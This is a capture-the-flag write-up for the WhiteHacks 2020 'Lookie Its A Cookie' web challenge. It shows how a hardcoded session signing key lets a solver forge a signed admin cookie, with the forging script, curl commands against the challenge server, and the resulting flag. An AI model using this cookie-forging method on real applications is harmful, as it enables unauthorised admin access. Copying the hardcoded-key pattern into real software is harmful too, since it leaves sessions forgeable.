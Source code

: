 # PDF-C (2/3): Lookie Its A Cookie
Web

## Challenge 

DESCRIPTION
I hope the circuit breaker period made you a better baker, because you are going to have to bake your own cookies. Can you retrieve the second flag?

The website.zip here is the same as in part 1.

Visit the challenge at http://chals.whitehacks.ctf.sg:13003/

Author: waituck


ATTACHED FILES
website.zip

## Solution

In the source code, we see the session cookie key.

	app.use(cookieSession({
	  name: 'session',
	  keys: ['🎌💩💩💩💩🎌']
	}))


We need a session cookie to access /read_admin.

	app.get('/real_admin', (req, res) => {
	  if (req.session && req.session.admin === true) {
	    let flag = fs.readFileSync('flag2.txt').toString('utf8')
	    flag = `<h1>${flag}</h1>`
	    flag += '<br/> but you are still not a real admin :>, the real admin can run shell commands :)'
	    res.send(flag)
	  } else {
	    res.send('<h1 style="color:red;">your cookies taste awful!</h1>')
	  }
	})

I created my own version to produce a cookie with the value of admin=true..

	app.get('/', (req, res) => {
	  req.session.admin = true
	  res.end(req.session.admin + '.')
	});

Then ran it to get the cookie values.

	$ npm install cookie-session
	# npm install express
	$ node create_cookie.js 
	Running on http://0.0.0.0:8080

	$ curl http://127.0.0.1:8080 -v
	*   Trying 127.0.0.1:8080...
	* TCP_NODELAY set
	* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: 127.0.0.1:8080
	> User-Agent: curl/7.68.0
	> Accept: */*
	> 
	* Mark bundle as not supporting multiuse
	< HTTP/1.1 200 OK
	< X-Powered-By: Express
	< Set-Cookie: v path=/; httponly
	< Set-Cookie: session.sig=_xVjCLdo74nT98RCUcPQ3zCBkNQ; path=/; httponly
	< Date: Sun, 02 Aug 2020 05:04:28 GMT
	< Connection: keep-alive
	< Content-Length: 5
	< 
	* Connection #0 to host 127.0.0.1 left intact


Then used the values for the server

	$ curl http://chals.whitehacks.ctf.sg:13003/real_admin 
	--cookie "session=eyJhZG1pbiI6dHJ1ZX0=;session.sig=_xVjCLdo74nT98RCUcPQ3zCBkNQ;"

	<h1>WH2020{sw33_h3ng_bAk3ryy}</h1><br/> but you are still not a real admin :>, the real admin can run shell commands :)z

## Flag

	WH2020{sw33_h3ng_bAk3ryy}
